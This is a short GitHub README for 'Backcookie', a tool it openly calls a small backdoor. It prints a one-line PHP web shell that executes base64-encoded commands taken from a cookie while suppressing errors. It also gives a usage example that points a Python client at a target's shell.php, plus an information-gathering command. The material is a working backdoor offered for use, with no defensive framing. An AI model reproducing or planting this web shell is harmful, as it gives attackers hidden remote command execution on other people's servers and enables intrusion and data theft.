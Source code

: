 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/jofpin/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/jofpin/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

## Developer

-------------

Copyright, 2013 by [José Pino](http://twitter.com/jofpin)

-------------
